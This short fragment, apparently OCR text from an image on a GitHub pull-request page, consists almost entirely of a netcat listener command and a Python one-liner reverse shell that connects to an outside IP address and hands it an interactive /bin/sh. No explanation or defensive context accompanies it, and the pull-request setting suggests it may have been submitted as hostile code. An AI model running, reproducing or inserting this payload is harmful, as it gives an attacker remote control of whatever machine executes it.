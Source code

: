 pull_request
dev one
nc -lvp 1337
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('35.212.243.13',1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);

